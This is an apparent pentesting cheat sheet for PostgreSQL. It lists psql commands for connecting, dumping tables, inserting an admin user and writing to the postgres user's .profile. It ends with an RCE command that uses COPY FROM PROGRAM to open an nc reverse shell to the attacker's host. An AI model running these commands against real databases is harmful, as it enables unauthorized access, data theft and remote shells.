 ```yaml
---
title: "Postgresql"
date: 2024-7-9
tags: ["Database Dumping", "Privilege Escalation In Databases", "Postgresql", "RCE", "Database"]
---
```


### Connect

```console
psql -h 127.0.0.1 -U <USER> -p 5432 -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

### Basic

```console
# Show databases
\list
```

```console
# Use database
\connect <DB_NAME>
```

```console
# Show tables in current database
\dt
```

```console
# Dump data from table
select * from <TABLE_NAME>;
```

```console
# Insert data into table (e.g)
insert into <TABLE_NAME> (username, password, role) values ('user', 'password', 'admin');
```

```console
# Write text
copy (select '<STRING>') to '/var/lib/postgresql/.profile';
```

```console
# Exit
\q
```

---

### RCE

```console
# Only superuser
CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM 'nc -e /bin/bash <LOCAL_IP> <LOCAL_PORT> &'
```
